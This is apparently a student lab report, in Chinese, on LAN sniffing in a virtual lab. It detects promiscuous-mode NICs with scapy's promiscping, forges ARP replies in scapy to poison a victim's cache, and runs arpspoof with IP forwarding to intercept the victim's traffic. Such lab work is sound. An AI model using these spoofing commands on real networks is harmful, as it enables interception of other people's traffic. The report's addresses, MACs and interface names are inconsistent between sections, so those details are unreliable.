

# 网络安全第四次实验

## 网络监听实验

---

### 实验环境

**网络拓扑**


如图所示网络中的节点基本信息如下：

- 网关(Gateway)
  - **172.16.222.1** / enp0s10
  - **08:00:27:b9:25:02**
- 攻击者(KALI)
  - **172.16.222.134** / eth3
  - **08:00:27:c0:0c:d0**
- 受害者(Victim-XP-2)
  -  **172.16.222.123** /enp0s3
  - **08:00:27:29:54**


---

### 实验准备

提前安装好 `scapy`

KALI 自带 **scapy框架**


---


### 实验详情

#### 实验一：检测局域网中的异常终端

**1. 实验拓扑：**

本次实验只涉及到攻击者和网关


**2. 实验目的：**

通过 **scapy** 构造数据包，用来达到探测局域网中是否存在开放混杂模式的网卡的目的

**3. 先验知识：**

1. 混杂模式

摘自课件：

> 以太网卡的工作模式有两种：正常模式和混杂模式。在正常模式下，只接收目的 MAC 地址的自己的数据包，其他将一律丢弃；而在混杂模式下，网卡并不检查目的 MAC 地址，对所有的数据包都来者不拒。

2. scapy 的 promiscping 函数: 

**为查看混杂模式主机而发送ARP请求**

> Send ARP who-has requests to determine which hosts are in promiscuous mode


**4. 实验步骤：**

**注：**

注释中的攻击者和受害者是我直接从实验要求中复制过来的。
但是我的观点是：“攻击者” 使用 promiscping 是为了主动防御，查看该局域网中是否存在使用混杂模式进行被动监听的“受害者”（即真正的攻击者）

如果我说的不对，请轻喷 :wink:

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show enp0s10

# 5: enp0s10: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
# link/ether 08:00:27:b9:25:02 brd ff:ff:ff:ff:ff:ff
```


先在攻击者主机查看 `arp` 缓存 , 清空所有的 `arp缓存`


```bash
# 在攻击者主机上开启 scapy
scapy
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.222.1")
```


然后检查arp缓存发现**eth3**这块网卡上的arp表是空的


---

在进行网关混杂模式开启之前，进行如下图片中的操作：


对以上操作进行说明：

- 在网关没有开启混杂模式时，使用 `scapy` 的 `promiscping` 进行检测。可以看到1个packet被留存了下来
- 同时进行抓包。只有一条数据。
- 查看arp缓存表。也没有在eth3这块网卡有新的IP与mac对应

可以说明：

在不开启混杂模式的情况下，使用`promiscping`无法探测到目标主机。

---

```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set enp0s8 promisc on

# 此时会发现输出结果里多出来了 PROMISC 
ip link show enp0s10

# 5: enp0s10: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
    # link/ether 08:00:27:b9:25:02 brd ff:ff:ff:ff:ff:ff

```

这里可以看到开启之后的效果：


```bash

# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.222.1")
```

---

在进行网关混杂模式开启之后，进行如下图片中的操作：




对以上操作进行说明：

- 在开启混杂模式之后，在两台机器上分别进行抓包，可以看到本机的mac地址信息的交换。

说明：

在开启混杂模式的情况下，使用 `promiscping` 可以探测到目标主机。


---


```bash
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0s10 promisc off
```

---

#### 实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成。


```bash
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.222.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# ###[ Ethernet ]### 
#   dst= ff:ff:ff:ff:ff:ff
#   src= 08:00:27:c0:0c:d0
#   type= ARP
# ###[ ARP ]### 
#      hwtype= 0x1
#      ptype= IPv4
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:c0:0c:d0
#      psrc= 172.16.222.134
#      hwdst= 00:00:00:00:00:00
#      pdst= 172.16.222.1


# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# Begin emission:
# Finished sending 1 packets.

# Received 0 packets, got 0 answers, remaining 1 packets

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.222.123
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="192.168.0.1", pdst="192.168.0.102", hwdst="08:00:27:bd:92:09")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

ip neigh
# 192.168.0.103 dev enp0s3 lladdr 08:00:27:bd:92:09 STALE
# 192.168.0.1 dev enp0s3 lladdr 08:00:27:bd:92:09 REACHABLE
回到攻击者主机上的 scapy 交互式终端继续执行命令。

# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="192.168.0.1", hwsrc="08:00:27:2a:4b:04", pdst="192.168.0.102", hwdst="08:00:27:aa:ff:3e")
sendp(restorepkt1, count=100, inter=0.2)
## （可选）伪装受害者给网关发送 ARP 响应
restorepkt2 = ARP(op=2, pdst="192.168.0.1", hwdst="08:00:27:2a:4b:04", psrc="192.168.0.102", hwsrc="08:00:27:aa:ff:3e")
sendp(restorepkt2, count=100, inter=0.2)
此时在受害者主机上准备“刷新”网关 ARP 记录。

## 在受害者主机上尝试 ping 网关
ping 192.168.0.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```
---

#### 实验三：ARP欺骗

**arp 初始状态**

- attacker


- gateway


- victim


**连通性测试**

- attacker


- gateway


- victim


**arp欺骗**

使用 `arpspoof` 工具

以下可以看到该工具的使用方法：

```bash
┌──(kali㉿kali)-[~]
└─$ sudo arpspoof -help                                                                                          1 ⨯
Version: 2.4
Usage: arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host
```

使用如下命令：

```bash
sudo arpspoof -i eth3 -t 172.16.222.123 172.16.222.1
```

开启arp污染的时候，连接不到互联网，但是关闭就可以


查看啊arp表


当我开启了ipv4转发的时候

```
┌──(root💀kali)-[~]
└─# echo 1 > /proc/sys/net/ipv4/ip_forward
```


靶机可以正常访问网址，我这里还能进行流量监听

这不就是做到了网络监听！！

（激动~

如果只想让靶机断网直接设置成不进行流量转发就好了

## 遇到的问题与解决办法

1. scapy执行 `pkt = promiscping("192.168.43.8")` 被禁止


解决办法：**使用root权限执行scpay**

2. 在流量包中检测到了网关的mac地址，但是在arp表中却没有显示。


解决办法：暂无。因为本来就不会显示/doge

3. 实验二在发送数据包后没有反应


4. arpspoof: libnet_open_link(): UID/EUID 0 or cap

解决方法： 在命令前面加上sudo即可。

## 参考文献

- [课件仓库](https://c4pr1c3.github.io/cuc-wiki/)
- [CUCCS/2021-ns-public-Lychee00](https://github.com/CUCCS/2021-ns-public-Lychee00/blob/chap0x04/chap0x04/report04.md)


